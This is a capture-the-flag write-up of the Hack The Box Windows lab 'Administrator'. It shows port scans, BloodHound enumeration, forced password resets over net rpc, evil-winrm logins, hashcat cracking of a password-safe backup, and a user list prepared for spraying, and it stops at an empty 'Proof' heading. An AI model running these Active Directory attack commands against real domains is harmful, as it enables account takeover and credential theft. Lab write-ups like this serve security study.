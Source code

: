 ```yaml
---
Started: "{{DD-MM-YY}} | 14:28"
Ended: "{{DD-MM-YY}} |"
---
```


#CTF/HTB/Windows/Medium

# Given

`Administrator` is a medium-difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. To gain access to the `michael` account, ACLs (Access Control Lists) over privileged objects are enumerated, leading us to discover that the user `olivia` has `GenericAll` permissions over `michael`, allowing us to reset his password. With access as `michael`, it is revealed that he can force a password change on the user `benjamin`, whose password is reset. This grants access to `FTP` where a `backup.psafe3` file is discovered, cracked, and reveals credentials for several users. These credentials are sprayed across the domain, revealing valid credentials for the user `emily`. Further enumeration shows that `emily` has `GenericWrite` permissions over the user `ethan`, allowing us to perform a targeted Kerberoasting attack. The recovered hash is cracked and reveals valid credentials for `ethan`, who is found to have `DCSync` rights ultimately allowing retrieval of the `Administrator` account hash and full domain compromise.

## IP

10.10.11.42

## Creds

Olivia : ichliebedich

# Writeup

## Enumeration

I started with the usual Rustscan to find out which ports could be open, and a full port scan in the background.

```shell title="nmap" fold
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-14 13:15:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.
htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.
htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49990/tcp open  msrpc         Microsoft Windows RPC
58537/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
58542/tcp open  msrpc         Microsoft Windows RPC
58553/tcp open  msrpc         Microsoft Windows RPC
58564/tcp open  msrpc         Microsoft Windows RPC
58600/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The ports seemed to tally, so I started to look at the services running in order to note anything of interest.

```bash
- FTP(22)
- DNS(53)
- Kerberos(88)
- RPC(135)
- LDAP(389)
- SMB(445)
- HTTP(5985)
```

Also, the host seems to be called `DC` which could mean that this is the domain controller, running Windows. I'll start testing the services in order.

1. FTP
   ![](Assets/Pasted%20image%2020250714211633.png)
2. SMB
	1. Null session
	   ![](Assets/Pasted%20image%2020250714212046.png)
	2. Enum shares with the breached creds
	   ![](Assets/Pasted%20image%2020250714212137.png)
	3. Enum users with `rid-brute`
	   ![](Assets/Pasted%20image%2020250714212418.png)
	4. Found out that the domain is called `administrator.htb`
3. LDAP
	1. Checked for domain users
	   ![](Assets/Pasted%20image%2020250714213818.png)
	2. It was becoming more and more clear that I needed bloodhound to look at the connections between all these accounts and groups. So I used the LDAP protocol and bloodhound ingestor to gather more info
	   ![](Assets/Pasted%20image%2020250714214259.png)

I fed the ingestor data into Bloodhound, and started at Olivia
![](Assets/Pasted%20image%2020250714215856.png)

### Olivia -> Michael

```bash fold
Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.

Targeted Kerberoast

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

Force Change Password

Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.

net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

Shadow Credentials

attack

To abuse this permission, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"

For other optional parameters, view the pyWhisker documentation.

```

#### Force Change Michael's Password

Used the following command to change michael's password.
`net rpc password "michael" "newpass2025" -U "ADMINISTRATOR"/"olivia"%"ichliebedich" -S 10.10.11.42`

Use `evil-winrm` to get into the user's machine
`evil-winrm -i 10.10.11.42 -u michael -p newpass2025`

![](Assets/Pasted%20image%2020250715091827.png)

### Michael -> Benjamin

```bash fold

Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.

net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

```

I used the permission michael had over benjamin's account, and changed the password. After that I tried SMB, and evil-winrm but I didn't get anything out of either. I looked at FTP which was previously inaccessible with Olivia's creds.
I managed to get my hands on a file called `Backup.psafe3`. 

I used `psafe2john` to dump the hash in the file, and then used John on it. At the same time, I ran Hashcat. 
`hashcat -m 5200 -a 0 -o backup.psafe.cracked Backup.psafe3 /usr/share/wordlists/rockyou.txt`

Hashcat finished first, with a password. Time to open the safe using that password.

The next step is to see which user the password belongs to. For that, I'll go back to nxc and do a password spray with users using the smb service. I got the user list through my earlier enumeration, and with the magic of regex, I had a user list:

```bash title:users fold 
Administrator
Guest
krbtgt
olivia
michael
benjamin
emily
ethan
alexander
emma
```

### Benjamin -> Share Moderators

```bash
The user BENJAMIN@ADMINISTRATOR.HTB is a member of the group SHARE MODERATORS@ADMINISTRATOR.HTB.

Groups in active directory grant their members any privileges the group itself has. If a group has rights to another principal, users/computers in the group, as well as other groups inside the group inherit those permissions.
```

# Creds

michael : newpass2025
benjamin : newpass2025x

Backup.psafe3 : tekieromucho 

# Proof